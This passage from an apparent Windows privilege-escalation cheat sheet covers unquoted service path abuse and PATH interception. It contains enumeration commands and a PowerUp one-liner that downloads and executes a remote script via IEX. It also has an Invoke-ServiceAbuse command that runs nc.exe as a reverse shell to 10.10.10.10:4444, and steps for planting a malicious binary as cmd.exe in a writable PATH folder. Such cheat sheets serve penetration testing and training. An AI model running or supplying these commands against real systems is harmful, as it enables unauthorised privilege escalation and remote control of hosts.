 The Microsoft Windows Unquoted Service Path Enumeration Vulnerability. All Windows services have a Path to its executable. If that path is unquoted and contains whitespace or other separators, then the service will attempt to access a resource in the parent path first.

```powershell
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """

wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """

gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

* Metasploit exploit : `exploit/windows/local/trusted_service_path`
* PowerUp exploit
    ```powershell
    # find the vulnerable application
    C:\> powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('https://your-site.com/PowerUp.ps1'); Invoke-AllChecks"

    ...
    [*] Checking for unquoted service paths...
    ServiceName   : BBSvc
    Path          : C:\Program Files\Microsoft\Bing Bar\7.1\BBSvc.exe
    StartName     : LocalSystem
    AbuseFunction : Write-ServiceBinary -ServiceName 'BBSvc' -Path <HijackPath>
    ...

    # automatic exploit
    Invoke-ServiceAbuse -Name [SERVICE_NAME] -Command "..\..\Users\Public\nc.exe 10.10.10.10 4444 -e cmd.exe"
    ```

### Example

For `C:\Program Files\something\legit.exe`, Windows will try the following paths first:
- `C:\Program.exe`
- `C:\Program Files.exe`


## EoP - $PATH Interception

Requirements:
- PATH contains a writeable folder with low privileges.
- The writeable folder is _before_ the folder that contains the legitimate binary.

EXAMPLE:
```powershell
# List contents of the PATH environment variable
# EXAMPLE OUTPUT: C:\Program Files\nodejs\;C:\WINDOWS\system32
$env:Path

# See permissions of the target folder
# EXAMPLE OUTPUT: BUILTIN\Users: GR,GW
icacls.exe "C:\Program Files\nodejs\"

# Place our evil-file in that folder.
copy evil-file.exe "C:\Program Files\nodejs\cmd.exe"
```
